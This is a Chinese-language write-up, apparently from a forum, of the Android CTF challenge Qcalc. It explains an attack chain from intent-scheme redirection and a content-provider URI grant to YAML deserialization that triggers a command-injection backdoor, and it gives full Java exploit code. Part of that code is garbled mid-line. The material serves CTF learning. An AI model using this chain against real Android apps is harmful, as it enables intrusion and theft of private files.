# [Android CTF] 强网杯s9初赛 Qcalc wp

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=2071440
- 抓取时间: 2026-11-01T13:53:00.503Z

## 逆向过程

`MainActivity`可通过`qiangcalc://calculate`形式的`uri`启动



`MainActivity`收到`intent`时会调用`handleIntent`方法



`handleIntent`会判断`Action`并取出其中的`expression`参数并传入`processDeeplinkExpression`中



`processDeeplinkExpression`会判断传入的`expression`是否为`intent scheme`，是的话将该`uri`转成`intent`并存入顶层`intent`的`fallback`参数中，并计算哈希一并存入。

如果是普通的表达式的话，该方法会取出表达式的两个操作数并调用`onEqual()`进行计算



`onEqual`中值得注意的是除法，如果除以0会抛出除0异常，并交由异常处理来处理。`catch`中取出了`fallback`并存入了一些新的参数（作用不大），最后将`fallback`作为`bridgeIntent`的参数`origIntent`传入，并启动`BridgeActivity`



`BridgeActivity`首先会对传入的`intent`进行校验，大部分的参数都是`onEqual`中硬编码的所以不会错，唯一需要注意的是`this.validateToken`方法，对`bridge_token`参数进行了校验，将其与包名的`sha256`进行了比较，这个参数在之前都没有出现过，所以是一开始就要在`fallback`对应的`intent scheme`里就要传入





验证通过后，为`origIntent`赋予通过`provider`读写（`addFlags(3)`）`/data/data/com.qinquang.calc/files/history.yml`的权限并启动`Activity`



## 漏洞分析

上面的分析中，我们最后发现有一个`content provider`，该`provider`不导出，但设置了`grantUriPermissions=“true”`，这样我们可以传入`intent`来调用该`provider`。但是目标apk中唯一授权的只有`/data/data/com.qinquang.calc/files/history.yml`，意味着我们不能直接通过`provider`读取`flag`只能读写`history.yml`



`HistoryManager.loadHistory`中通过`yaml.load`反序列化了`history.yml`文件，并判断其是否为`intent`，是的话就启动该`intent`。但是我们在上面已经可以构造一个`intent`了，再构造一个意义不大



注意到有一个没调用过的类`PingUtil`，很明显的后门函数，命令拼接，那我们可以直接利用上面的反序列化执行该类的`init`方法从而实现命令执行



本来考虑直接通过网络传出`flag`或者先写入外部存储然后再读取，但很不幸apk没有这两个权限。考虑到我们可以对`history.yml`进行读取，我们可以将`flag`写入`yml`文件中再进行读取。

剩下的问题就是如何触发反序列化了，`loadHistory`在`onCreate`和`saveHistory`中有调用，`saveHistory`在`onEqual`的末尾有调用，我们可以通过传入`intent`进行一次正常的运算来调用`saveHistory`

但在`saveHistory`中，调用完`loadHistory`后他会对`yml`进行覆写，会把我们的`flag`给清掉，所以我们需要卡一个timing，在写入`flag`后和`flag`被覆写前趁机读取出`flag`，这就要自己延时慢慢调了



## 漏洞利用

综上，利用链可总结为：

- 传入`intent scheme`到`fallback`中
- 触发除0异常调用`BridgeActivity`获取`history.yml`读写权限，并启动`fallback intent`（由于这个是我们自己传入的，所以我们可以再次启动我们自己的`Activity`）
- 回调到我们的`Activity`，对`history.yml`文件写入`poc`
- 正常进行一次计算，触发反序列化漏洞
- 等待`flag`写入`yml`文件后，读取出`flag`

由于是复现，就不将`flag`发送到外网了，这里就直接将`flag`写到`log`里，`exp`如下

```
package com.example.qcalc;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.os.Handler;
import android.util.Log;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.BufferedReader;
import java.io.FileNotFoundException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;

public class MainActivity extends AppCompatActivity {

    private static final String TAG = "qcalcccccccc";
    private String getToken(){
        try {
            byte[] arr_b = MessageDigest.getInstance("SHA-256").digest("com.qinquang.calc".getBytes(StandardCharsets.UTF_8));
            StringBuilder sb = new StringBuilder();
            for(int i = 0; i  /data/data/com.qinquang.calc/files/history.yml";
        return yaml;
    }

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d(TAG,"123123123");
        Intent intent = this.getIntent();
        Uri yamlUri = null;
        if (intent != null)
            yamlUri = intent.getData();

        // 因为该exp会让目标apk再次调用该Activity，所以该Activity实际上执行了两次，第一次是直接执行，第二次通过intent执行并返回了history.yml的uri，所以要进行一次判断
        if (yamlUri == null)
        {
            // 传入fallback
            Intent fallBackIntent = new Intent(Intent.ACTION_VIEW);
            fallBackIntent.setClassName(getPackageName(),MainActivity.class.getName());
            fallBackIntent.putExtra("bridge_token", getToken());
            String uri = fallBackIntent.toUri(Intent.URI_INTENT_SCHEME);
            uri = Uri.encode(uri);
            Intent intent1 = new Intent(Intent.ACTION_VIEW, Uri.parse("qiangcalc://calculate?expression=" + uri));
            intent1.setPackage("com.qinquang.calc");
            startActivity(intent1);

            // 触发div 0
            Log.d(TAG,"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
            Intent intent2 = new Intent(Intent.ACTION_VIEW, Uri.parse("qiangcalc://calculate?expression=0%2F0"));
            intent2.setPackage("com.qinquang.calc");
            intent2.putExtra("fallback",fallBackIntent);
            startActivity(intent2);
            finish();
            return ;
        }

        // 获得history.yml读写权限，写入exp
        try {
            OutputStream os = getContentResolver().openOutputStream(yamlUri);
            os.write(getExp().getBytes(StandardCharsets.UTF_8));
        } catch (Exception e) {
            throw new RuntimeException(e);
        }

        // 进行一次正常运算，触发反序列化漏洞
        Intent intent3 = new Intent(Intent.ACTION_VIEW, Uri.parse("qiangcalc://calculate?expression=2%2B2"));
        intent3.setPackage("com.qinquang.calc");
        startActivity(intent3);

        // 卡timing读取flag，需要慢慢调
        final Uri yaml = yamlUri;
        new Handler().postDelayed(new Runnable() {
            @Override
            public void run() {
                try {
                    StringBuilder sb = new StringBuilder();
                    InputStream is = getContentResolver().openInputStream(yaml);
                    InputStreamReader ir = new InputStreamReader(is, StandardCharsets.UTF_8);
                    BufferedReader br = new BufferedReader(ir);
                    String line;
                    while ((line = br.readLine()) != null)
                        sb.append(line);
                    Log.d(TAG, "flag: "+ sb.toString());
                } catch (Exception e) {

                }
            }
        },50); // 延时1秒

    }
}
```

在日志里获得`flag`


